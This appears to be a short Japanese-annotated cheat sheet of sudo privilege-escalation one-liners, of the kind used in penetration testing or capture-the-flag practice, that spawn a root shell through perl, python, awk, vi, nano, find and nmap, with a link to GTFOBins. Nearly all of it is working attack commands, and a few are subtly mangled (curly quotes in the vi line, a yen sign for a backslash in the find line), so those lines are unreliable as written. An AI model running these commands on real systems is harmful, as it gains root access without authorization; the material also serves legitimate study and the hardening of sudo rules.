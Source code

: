 ## perl
`sudo perl -e 'exec "/bin/sh";'`
## python
`sudo python3 -c 'import os; os.system("/bin/bash")'`
## awk
`sudo awk 'BEGIN {system("/bin/bash")}'`
## vi
`sudo vi –c ‘:!bash’`
## nano
- nanoの場合は、エディタ起動後、^R^X（[Ctrl]+R、[Ctrl]+X）により、コマンドの実行結果を挿入
```bash
sudo nano
^R^X # ^R^X（[Ctrl]+R、[Ctrl]+X）
reset; bash 1>&0 2>&0
```
## find
`sudo find / -exec /bin/bash ¥;`
## nmap
- `cat shell.nse`
  ```
  os.execute("/bin/bash")
  ```
  `sudo nmap --script ./shell.nse localhost`
- `sudo nmap --interactive`  
  `nmap> !sh`
## 権限変更
`sudo -u scriptmanager bash`
## 検索用
`https://gtfobins.github.io/#+sudo`

  
